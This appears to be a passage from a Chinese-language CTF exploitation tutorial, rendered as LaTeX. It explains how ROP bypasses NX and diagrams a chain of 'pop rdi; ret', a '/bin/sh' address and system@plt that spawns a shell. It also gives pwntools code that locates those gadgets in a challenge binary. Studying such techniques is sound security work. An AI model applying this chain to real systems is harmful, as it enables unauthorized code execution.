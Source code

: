 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
NX 讓堆疊不可執行，但\textbf{程式碼段本來就是可執行的}。ROP 的想法是：

\begin{quote}
在堆疊上排好一連串「\textbf{回傳位址}」。每個 \texttt{ret} 會 pop
一個位址到 \texttt{rip}，
於是我們可以「借用」程式裡已經存在的短指令序列（\textbf{gadget}，通常以
\texttt{ret} 結尾）串成任意邏輯。
\end{quote}

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
   堆疊（被我們控制）                程式碼段（不能改，但可以跳）
  ┌──────────────────┐
  │ pop rdi; ret     │ ─── ret 跳到 ──► pop rdi; ret   （把下一個值彈進 rdi）
  ├──────────────────┤
  │ "/bin/sh" 的位址 │ ◄── 被 pop 進 rdi
  ├──────────────────┤
  │ system@plt       │ ─── ret 跳到 ──► system()       （rdi 已經是 "/bin/sh"）
  ├──────────────────┤
  │ 垃圾/結束位址    │
  └──────────────────┘
\end{Verbatim}

\paragraph{\texorpdfstring{6.2 找 gadget：\texttt{ROPgadget} 與
pwntools}{6.2 找 gadget：ROPgadget 與 pwntools}}\label{ux627e-gadgetropgadget-ux8207-pwntools}

\begin{Shaded}
\end{Shaded}

pwntools 也能自動找（\texttt{ROP(elf)}）；本題 gadget 很少，直接寫死
offset 更清楚：

\begin{Shaded}
\begin{Highlighting}[]
\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}
\NormalTok{elf }\OperatorTok{=}\NormalTok{ ELF(}\StringTok{\textquotesingle{}./homemaker\textquotesingle{}}\NormalTok{, checksec}\OperatorTok{=}\VariableTok{False}\NormalTok{)}
\NormalTok{rop }\OperatorTok{=}\NormalTok{ ROP(elf)}
\BuiltInTok{print}\NormalTok{(rop.find\_gadget([}\StringTok{\textquotesingle{}pop rdi\textquotesingle{}}\NormalTok{, }\StringTok{\textquotesingle{}ret\textquotesingle{}}\NormalTok{]))   }\CommentTok{\# Gadget(0x12aa, [\textquotesingle{}pop rdi\textquotesingle{}, \textquotesingle{}ret\textquotesingle{}], [])}
\BuiltInTok{print}\NormalTok{(}\BuiltInTok{hex}\NormalTok{(elf.plt[}\StringTok{\textquotesingle{}system\textquotesingle{}}\NormalTok{]))                }\CommentTok{\# 0x10c4（PLT 本體在 0x10c0）}
\end{Highlighting}
\end{Shaded}
\end{document}
